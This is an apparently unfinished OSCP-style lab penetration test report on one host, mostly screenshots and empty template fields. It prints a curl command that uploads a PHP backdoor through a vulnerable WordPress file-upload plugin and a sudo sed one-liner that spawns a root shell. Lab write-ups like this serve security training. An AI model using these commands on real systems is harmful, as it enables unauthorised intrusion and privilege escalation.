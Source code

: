 ![image](https://github.com/user-attachments/assets/b6e362c9-0bb2-495d-a442-ee52fe1caa4b)

#Penetration Test Report Dorvack.Corp LAB 10
**Version**: 3.2  
**OSID**: XXXXX  
**Email**: ericgon28@proton.me 

![OSCP Logo](https://github.com/user-attachments/assets/d6b50208-9978-426d-bdd3-6cffcd6778c7)

> © All rights reserved to Offensive Security, 2025  
> No part of this publication, in whole or in part, may be reproduced, copied, transferred or any other right reserved to its copyright owner without prior written permission from Offensive Security.

---

## Table of Contents
1. [Offensive Security Exam Penetration Test Report](#1-offensive-security-exam-penetration-test-report)
   - [1.1 Introduction](#11-introduction)  
   - [1.2 Objective](#12-objective)  
   - [1.3 Requirements](#13-requirements)  
2. [High-Level Summary](#2-high-level-summary)  
   - [2.1 Recommendations](#21-recommendations)  
3. [Methodologies](#3-methodologies)  
   - [3.1 Information Gathering](#31-information-gathering)  
   - [3.2 Penetration](#32-penetration)  
---

## 1. Offensive Security Exam Penetration Test Report

### 1.1 Introduction
The Offensive Security Exam penetration test report outlines all actions and efforts taken during the Offensive Security exam. This report is graded based on the thoroughness, accuracy, and completion of each aspect of the exam. It ensures the student demonstrates an in-depth understanding of penetration testing methodologies as well as the technical knowledge required to earn the Offensive Security Certified Professional (OSCP) certification.

### 1.2 Objective
The objective is to perform an internal penetration test on the Offensive Security Exam network. The student must follow a systematic approach to achieving the assigned goals. This test simulates an actual penetration test, from start to finish, and includes a comprehensive report.

### 1.3 Requirements
The student is required to fill out this report fully, including the following sections:
- High-level summary and recommendations (non-technical)
- Detailed methodology outline
- Each finding with screenshots, walkthroughs, sample code, and proof.txt if applicable
- Additional items if not included in previous sections

---

## 2. High-Level Summary

### Compromised Hosts
- **172.20.0.235 (Dorvack.corp)** – Initial exploit used  
---

### 2.1 Recommendations
It is recommended that the identified vulnerabilities be patched immediately to prevent exploitation. These systems require regular updates and patches to avoid future breaches.

---

## 3. Methodologies

### 3.1 Information Gathering
Information gathering is critical in penetration testing. In this case, the scope of the test covered the following IP addresses:
- `172.20.0.235`

---

### 3.2 Penetration

#### System IP: `172.20.0.235`

**Service Enumeration:**
- **Server IP Address:** 172.20.0.235 

| Protocol | Port(s)       |
|----------|---------------|
| TCP      | 22, 80        |
| UDP      |               |

- **Nmap Scan Results:**

 ![image](https://github.com/user-attachments/assets/9f843fd1-2981-4afd-89d2-71ad84bdee7b)

![image](https://github.com/user-attachments/assets/af8b35c6-89c5-450a-8d79-1471319d0cea)

![image](https://github.com/user-attachments/assets/c8851231-bb5c-480d-a341-82cb2ad8d016)

![image](https://github.com/user-attachments/assets/fa371d76-8a16-48b1-a301-69c1b9fcb702)

![image](https://github.com/user-attachments/assets/36d0b4bb-04fa-4560-bbc4-c8af5a773d90)

![image](https://github.com/user-attachments/assets/abc8099d-5ee5-475b-82a3-0630ccbf6b5a)

![image](https://github.com/user-attachments/assets/8b436fe9-eddb-48fd-bcbb-8280d0a8ab09)

![image](https://github.com/user-attachments/assets/ecdb2d65-b016-42bb-8d6f-af01f8bf3cd0)


##### Initial Shell Vulnerability Exploited  

- _Insert details here_  
- **Vulnerability Explanation:**  
  _Explanation here_  
- **Vulnerability Fix:**  
  _Fix info here_  
- **Severity:** High / Critical
- **Proof of Concept Code:**
  
```bash
 curl -k -X POST -F "action=upload" -F "files=@./backdoor.php" http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
 ```

![image](https://github.com/user-attachments/assets/6f2c1dfd-c681-4a00-9bf1-9506e2058227)

![image](https://github.com/user-attachments/assets/cad4ec11-9adb-4e8a-b371-4ffb99a5c425)

![image](https://github.com/user-attachments/assets/349c08b6-8f66-452b-98ca-0e8dc5455290)

![image](https://github.com/user-attachments/assets/f35a9fb6-d30d-4303-9fcb-0a57b7f94b23)

RevShell

![image](https://github.com/user-attachments/assets/2aca672f-1a13-45e1-817d-385a45111b19)

![image](https://github.com/user-attachments/assets/388f5222-60d5-4fcd-8df7-de98814c26a3)

![image](https://github.com/user-attachments/assets/dd37914a-5946-4cb4-8f01-9a041cd06cb8)

![image](https://github.com/user-attachments/assets/bc5e6c2d-17b4-4414-bcb4-75189ec0c3bf)

![image](https://github.com/user-attachments/assets/412cf8d8-6408-4a0b-b547-6d1945999f39)

![image](https://github.com/user-attachments/assets/293deb1b-57a5-4df2-8c5b-64052a766b69)

**flag.txt Contents:**

```
flag{
```

![image](https://github.com/user-attachments/assets/6ff8a440-8018-43fb-b3e7-a086e67b0ead)

![image](https://github.com/user-attachments/assets/dc50f0be-efa5-4626-b195-5dd113a57da9)

![image](https://github.com/user-attachments/assets/a5732ff3-ccd2-4ed7-8b3d-a0310c41bd4f)

![image](https://github.com/user-attachments/assets/642c4142-da2c-4c1c-8f6c-ce4f800b399a)

![image](https://github.com/user-attachments/assets/12847f5e-e6f7-49fe-9c6f-6582f4b44043)

![image](https://github.com/user-attachments/assets/edbb9fc0-7fc6-421f-a8dd-91b4b2cf0e07)

![image](https://github.com/user-attachments/assets/b1d527b3-0bfd-4e59-a40c-c99c035294b6)

![image](https://github.com/user-attachments/assets/44c920bf-6d0e-465e-952a-fcc1023d2a85)

![image](https://github.com/user-attachments/assets/9e13cf54-1450-48a5-afde-31cbf90d145b)

![image](https://github.com/user-attachments/assets/908b9b68-efb9-4ac4-93f2-3d1429280539)


##### Privilege Escalation

- **Vulnerability Exploited:**  
  _Exploit name here_  
- **Vulnerability Explanation:**  
  _Explanation here_  
- **Vulnerability Fix:**  
  _Fix here_  
- **Severity:** High  
- **Exploit Code:**  
  ```bash
  sudo sed -n '1e exec sh 1>&0' /etc/hosts
  ```

![image](https://github.com/user-attachments/assets/cbe68821-97de-4f66-881d-8eb959706501)

![image](https://github.com/user-attachments/assets/5aa87ea4-3d3d-45f4-824a-5cac0a752042)


##### Root Screenshot

**root.txt Contents:**
```
insert hash or content
```

**End of Report**
